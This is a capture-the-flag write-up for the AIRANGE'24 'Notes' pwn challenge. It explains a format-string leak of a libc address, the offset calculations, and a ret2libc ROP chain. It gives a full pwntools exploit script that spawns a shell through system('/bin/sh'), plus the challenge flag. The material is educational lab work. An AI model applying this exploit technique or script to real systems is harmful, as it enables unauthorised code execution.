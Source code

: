 ```yaml
---
title: AIRANGE'24 - Pwn - Notes
date: '2024-05-10'
tags: ['ctf', 'pwn', 'airange', 'writeup', 'fmt']
draft: false
summary: Given a libc leak, perform a ret2libc attack.
---
```


## Challenge Description

![Screenshot](/static/writeups/airange24/pwn/notes1.png)

## Solution

Files provided to us:

```
Dockerfile
ld-2.35.so
libc.so.6
notes
notes.cpp
```

Checking binary’s mitigations:

![Screenshot](/static/writeups/airange24/pwn/notes2.png)

First thing first, lets see what is the vulnerable part. You can see in the following screenshot that we have FSB:

![Screenshot](/static/writeups/airange24/pwn/notes3.png)

As **PIE** and **NX** is enabled. We have to perform `ret2libc`. Now, open the binary in gdb and let’s see if we could leak an address from libc address range:

```
%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|
```

![Screenshot](/static/writeups/airange24/pwn/notes4.png)

Press `ctrl+C` and run `vmmap` to see range of libc; which in our case is `0x7ffff7b40000` - `0x7ffff7d5a000`:

![Screenshot](/static/writeups/airange24/pwn/notes5.png)

And if you see carefully, a leaked address (`0x7ffff7b69d90`) from this range is present on index `27`:

![Screenshot](/static/writeups/airange24/pwn/notes6.png)


As in this challenge, the **PIE** (Position Independent Executable) and **NX** (No eXecute) are enabled, meaning that each time a binary is executed, it generates a seemingly random address for every instruction in binary code. However, upon closer inspection, these addresses are not truly random.


This lack of randomness stems from a concept known as an offset, which represents the distance between any two functions or the distance from the base of the binary to a specific function. This offset remains consistent. For instance, consider two individuals racing, and the difference between them is consistently 2 meters. So, even though they are constantly moving, if the distance between them remains the same and we know the address of one person, we can calculate the address of the other person.

So, if we have a leaked libc function address and somehow we can calculate its offset from the libc base, we can determine the libc base address and call any function that we desire.

> Base address + Offset = Function address

With knowledge of one address, it becomes feasible to calculate the offset to another function. Consequently, each time the binary is executed, this offset is randomly generated and added to the base address.

In our case, the leaked address was `0x7ffff7b69d90` and base address is `0x7ffff7b40000`. Let’s calculate the offset:

```bash
pwndbg> p/x 0x7ffff7b69d90 - 0x7ffff7b40000
```

![Screenshot](/static/writeups/airange24/pwn/notes7.png)

As now we know offset, we can calculate libc base address at runtime essentially bypassing **PIE** protection. 😉

```bash:how-it-will-be-calculated
libc.address = <%27$p> - <0x29d90>
```

Finding offset:

![Screenshot](/static/writeups/airange24/pwn/notes8.png)

![Screenshot](/static/writeups/airange24/pwn/notes9.png)

Our offset is 268+8 = `276`. Now let's find `ret` and `pop rdi`. 

But why we need them?

**POP_RDI:** gadget is used to pop the next value from the stack into the rdi register. In this context, rdi is typically used to pass the first argument to a function. Since the script (that we want to create) aims to call system("/bin/sh"), it needs to pass the address of the string "/bin/sh" as the first argument to `system()`. Therefore, POP_RDI will be used to load the address of "/bin/sh" into rdi.

**RET:** gadget is used to return control flow to the address stored on the stack. In the ROP chain, after loading the address of "/bin/sh" into rdi using POP_RDI, the next step is to return to some address. In our case it will be used to maintain alignment or adjust the stack before calling `system()`. After RET, the `system()` function from libc will be called, which expects control to be transferred to its entry point with the appropriate arguments in registers.

In short, **POP_RDI** is used to load the address of "/bin/sh" into rdi, and **RET** is used for alignment or adjusting the stack before calling `system()` with the appropriate arguments.

So, to find **POP_RDI** and **RET**, I will use rop gadget (`rop.find_gadget()`).

Final payload that I created:

```python:payload.py
#!/usr/bin/env python3
from pwn import *

context.terminal = ["tmux", "splitw", "-h"]

encode = lambda e: e if type(e) == bytes else str(e).encode()       # Lambda function to encode strings to bytes
hexleak = lambda l: int(l[:-1] if l[-1] == '\n' else l, 16)         # Lambda function to convert hex string to integer

exe = "./notes"
elf = context.binary = ELF(exe)
libc = elf.libc

# Set up the connection (remote or local)
io = remote(sys.argv[1], int(sys.argv[2])) if args.REMOTE else process()
# If GDB flag is enabled, attach to the process for debugging
if args.GDB: gdb.attach(io, "b *main")

rop = ROP(libc)

io.sendlineafter(b"$ ", b"1")
io.sendlineafter(b"note: ", b"|%27$p|")
io.sendlineafter(b"$ ", b"2")
io.sendlineafter(b": ", b"0")

# Receiving leaked address and parsing it
leak = int(io.recvline().split(b"|")[1], 16)
print("leak @ %#x" % leak)

# Calculating the libc base address using the leaked address
libc.address = leak - 0x29d90
print("base @ %#x" % libc.address)

# Finding the gadgets needed for ROP chain
POP_RDI = libc.address + rop.find_gadget(['pop rdi', 'ret'])[0]
RET = libc.address + rop.find_gadget(['ret'])[0]

payload = flat(
    cyclic(276),                        # Filling buffer with cyclic pattern (overflow to RIP)
    POP_RDI,                            # Setting up RDI register for system call
    next(libc.search(b"/bin/sh\x00")),  # Address of "/bin/sh" string in libc
    RET,                                # Return address
    libc.sym.system                     # Calling system() function
)

io.sendline(b"0")
io.recvuntil(b'$ ')
io.sendline(b"1")

io.sendline(payload)
io.interactive()
```

Running it against remote:

![Screenshot](/static/writeups/airange24/pwn/notes10.png)

### Flag:

```
AUCSS{1_th0ught_cpp_w4s_s3cur3}
```
